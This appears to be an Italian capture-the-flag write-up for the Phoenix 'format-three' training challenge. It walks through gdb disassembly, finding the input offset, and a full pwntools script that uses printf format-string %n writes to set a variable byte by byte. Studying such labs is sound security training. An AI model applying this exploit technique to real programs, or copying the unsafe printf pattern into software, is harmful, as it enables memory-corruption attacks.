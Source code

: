 ### Descrizione del Codice

Il programma `format_three.c` introduce la scrittura di valori specifici in memoria e come ciò possa essere realizzato.

### Funzionamento del Programma

1. Il programma legge un input dall'utente e lo memorizza in `buf`.
2. Chiama la funzione `bounce` che stampa il contenuto di `buf` usando `printf`.
3. Controlla se la variabile `changeme` è stata impostata al valore specifico `0x64457845`.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `printf` con un input controllato dall'utente senza specificare un formato, il che può causare una vulnerabilità di formato. Questo può essere sfruttato per scrivere un valore specifico nella variabile `changeme`.

### Exploit

L'exploit sfrutta la vulnerabilità di formato per scrivere il valore `0x64457845` nella variabile `changeme`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```sh
$ gdb -q /opt/phoenix/i486/format-three 
Reading symbols from /opt/phoenix/i486/format-three...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x08048551 <+85>:	call   0x80484e5 <bounce>
   0x08048556 <+90>:	add    esp,0x10
   0x08048559 <+93>:	mov    eax,ds:0x8049844
   0x0804855e <+98>:	cmp    eax,0x64457845
.....

L'indirizzo di changeme è 0x8049844.

Ora per ottenere l'offset dell'input:

$ /opt/phoenix/i486/format-three 
Welcome to phoenix/format-three, brought to you by https://exploit.education
AAAA%x %x %x %x %x %x %x %x %x %x %x %x %x %x
AAAA0 0 0 f7f81cf7 f7ffb000 ffffd708 8048556 ffffc700 ffffc700 fff 0 41414141 25207825 78252078

Possiamo vedere il nostro input 41414141 che è AAAA all'offset 12.

Ora per scrivere all'indirizzo di changeme scriveremo byte per byte, quindi prima inseriamo i quattro byte dell'indirizzo di changeme.

changeme = 0x8049844

buff = ""
buff += p32(changeme+0)
buff += p32(changeme+1)
buff += p32(changeme+2)
buff += p32(changeme+3)

Poi inseriamo l'offset che è %x * 11 (ricorda che l'input è all'offset 12).
E infine scriviamo in memoria con %n.

buff += "%x " * 11
buff += "%n"

$ python solve.py | /opt/phoenix/i486/format-three 
Welcome to phoenix/format-three, brought to you by https://exploit.education
DEFG0 0 0 f7f81cf7 f7ffb000 ffffd708 8048556 ffffc700 ffffc700 fff 0 
Better luck next time - got 0x00000051, wanted 0x64457845!

Siamo riusciti a scrivere con successo al primo byte di changeme ma il valore scritto è 0x51 e abbiamo bisogno di 0x45 :(

Per superare questo problema scriviamo 0x145 invece di 0x45 (possiamo solo aumentare).

Abbiamo già 0x51 quindi per raggiungere 0x145 abbiamo bisogno di 244 byte in più (0x145 - 0x51).

buff += "%x " * 11
buff += 'A' * 244
buff += "%n"

$ python solve.py | /opt/phoenix/i486/format-three 
Welcome to phoenix/format-three, brought to you by https://exploit.education
DEFG0 0 0 f7f81cf7 f7ffb000 ffffd708 8048556 ffffc700 ffffc700 fff 0 
Better luck next time - got 0x00000145, wanted 0x64457845!

Bytes_written_until_now = 0x145

Il byte successivo deve essere 0x78 e abbiamo 0x145 (ricorda che possiamo solo aumentare) quindi scriveremo 0x178 invece.

Bytes_needed = 0x178 - 0x145 = 51 byte di riempimento.

buff += 'A' * 51
buff += "%n"

Bytes_written_until_now = 0x178

Il terzo byte deve essere 0x45 e abbiamo 0x178 quindi scriveremo 0x245 (0x145 darebbe un numero negativo).

Bytes_needed = 0x245 - 0x178 = 205 byte di riempimento.

buff += 'A' * 205
buff += "%n"

Bytes_written_until_now = 0x245

L'ultimo byte deve essere 0x64 e abbiamo 0x245 quindi scriveremo 0x264.

Bytes_needed = 0x264 - 0x245 = 31 byte di riempimento.

buff += 'A' * 31
buff += "%n"

# solve.py

from pwn import *

changeme = 0x8049844

buff = ""
buff += p32(changeme+0)
buff += p32(changeme+1)
buff += p32(changeme+2)
buff += p32(changeme+3)

buff += '%x ' * 11      # offset to first byte

buff += 'A' * 244       # JUNK
buff += "%n"            # write to first byte

buff += 'A' * 51        # JUNK
buff += "%n"            # write to second byte

buff += 'A' * 205       # JUNK
buff += "%n"            # write to third byte

buff += 'A' * 31        # JUNK
buff += "%n"

print(buff)

Eseguiamo lo script:
$ python solve.py | /opt/phoenix/i486/format-three 
